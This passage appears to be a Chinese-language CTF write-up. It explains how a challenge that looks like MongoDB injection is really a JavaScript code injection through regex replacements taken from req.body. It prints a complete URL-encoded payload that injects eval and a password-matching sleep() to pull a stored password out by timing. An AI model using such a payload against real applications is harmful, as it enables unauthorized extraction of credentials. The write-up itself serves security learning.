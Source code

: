 ```
});
```

很容易就能看出来核心代码，就是后面一部分

初看到这个题目其实很容易歪楼，很容易把问题想到mongdb注入上，实际上题目是一个代码注入。

因为req.body是我们发送的请求，那么我们就可以控制正则表达式来替换内容，通过合理的正则，我们可以替换为对`this.password`的操作，然后通过js代码执行来获取数据。

这是我们的最终payload
```
|#|=&|this.*"\)|=&|==|[]=%7C%7Ceval(&%7C%22%22+%5C%5B%22%7C=a&%7Ca%22%7C=%2B&%7C%22%2B%7C=&%7C%22%22%5C%5D%2b%7C=aaaa&%7Caaaa%22%7C=%2B&%7C%5C)%7B%7C%5B%5D=bbb).match(/^13fc892df79a86494792e14dcbef252a'+i+'.*/)){sleep(1000);}else{return%20&|\["|=&|""b|=%2b&|"bb|=&|return(\s.*)*0|=11111
```

通过修改这里的match来匹配密码，如果为真则sleep，通过这样的方式，我们成功把代码注入改成了一个盲注，后面就很简单了。



  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wfir4flmnno2knv9b5h21ibg/image.png
